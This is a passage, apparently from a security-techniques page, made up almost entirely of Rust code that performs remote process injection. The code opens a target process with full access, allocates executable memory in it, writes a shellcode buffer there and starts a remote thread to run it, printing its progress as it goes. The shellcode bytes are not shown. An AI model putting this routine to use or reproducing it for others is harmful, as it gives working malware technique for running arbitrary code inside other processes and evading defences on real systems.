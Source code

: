 ```rust
        let hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        if let Ok(hProcess) = hProcess {
            println!("Opened Handle: {:?}", hProcess);
            
            let buf = VirtualAllocEx(hProcess, Some(null()), shell_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if buf.is_null() {
                eprintln!("VirtualAlloc Failed : {:?}", GetLastError());
                std::process::exit(2);
            }
            println!("Allocated Memory for shellcode");
            
            let status_write = WriteProcessMemory(hProcess, buf, shellcode.as_ptr() as *const c_void, shell_size, Some(null_mut()));
            if status_write.is_err() {
                eprintln!("Error Writing shellcode to Memory: {:?}", GetLastError());
                std::process::exit(3);
            }
            println!("Written shellcode to process");

            let hThread = CreateRemoteThread(hProcess, None, 0, transmute(buf), None, 0, None);
            if let Ok(hThread) = hThread {
                println!("Created Remote Thread : {:?}", hThread);
            } else {
                eprintln!("Error Creating Remote Thread: {:?}", GetLastError());
                std::process::exit(4);
            }

            CloseHandle(hProcess);
        }
        else {
            let err_code = GetLastError();
            println!("Failed to get Handle : {:?}", err_code);
        }
    }
}
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
